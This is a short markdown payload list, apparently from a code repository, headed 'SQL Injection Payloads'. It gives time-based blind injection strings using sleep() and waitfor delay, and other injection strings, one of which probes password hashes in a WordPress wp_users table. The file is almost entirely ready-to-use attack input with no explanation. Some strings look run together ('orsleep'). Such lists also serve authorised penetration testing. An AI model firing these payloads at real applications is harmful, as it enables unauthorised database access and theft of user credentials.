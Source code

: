 # SQL Injection Payloads
## Time Based SQL Payloads
```sql
'XOR(if(now()=sysdate(),sleep(1*1),0))OR'
')orsleep(5)='
1))orsleep(5)#
"))orsleep(5)="
'))orsleep(5)='
;waitfor delay'0:0:5'--
);waitfor delay'0:0:5'--
';waitfor delay'0:0:5'--
";waitfor delay'0:0:5'--
');waitfor delay'0:0:5'--
");waitfor delay'0:0:5'--
));waitfor delay'0:0:5'--
{"param":"1")))+MySQL_payload--+--}
```
## Other SQL Injection Payloads
```sql
+OR+1=insert(1,1,1,1)--
+OR+1=replace(1,1,1)--
{`foo`/*bar*/(select+1)\}'
{`foo`/*bar*/(select%2b2)}
{`foo`/*bar*/(select+1+from+wp_users+where+user_pass+rlike+"(^)[$].*"+limit+1)}
```
